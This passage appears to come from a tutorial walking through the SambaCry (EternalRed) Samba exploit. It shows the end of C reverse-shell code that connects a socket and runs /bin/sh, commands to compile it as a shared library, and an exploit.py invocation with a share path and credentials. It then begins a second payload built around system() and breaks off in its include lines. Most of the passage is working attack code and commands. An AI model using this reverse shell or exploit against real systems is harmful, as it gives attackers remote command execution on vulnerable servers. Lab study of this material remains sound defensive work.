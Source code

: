 ```
    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/sh", 0, 0);
    return 0;
}

```
<br>
Compile the exploit then run, we will get a reverse shell:
<br>
```
gcc -c -fpic reverse.c
gcc -shared -o reverse.so reverse.o


./exploit.py -t localhost -e reverse.so \
             -s data -r /data/reverse.so \
             -u sambacry -p nosambanocry
			 
```
<br>
![reverseShell](/img/EternalRed/reverse.png)
<br>

<h3>Other Payloads</h3>
What if we want to do something else. For example, run a command. No problem, we need the same starting method name, the detachFromParent method and some small code to run our command. We will use just a system() function execution in this case which executes a command supplied to it as input.
For this test, I will create a new folder in /tmp called test. here is the code snippet I've used:
<br>
```
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
```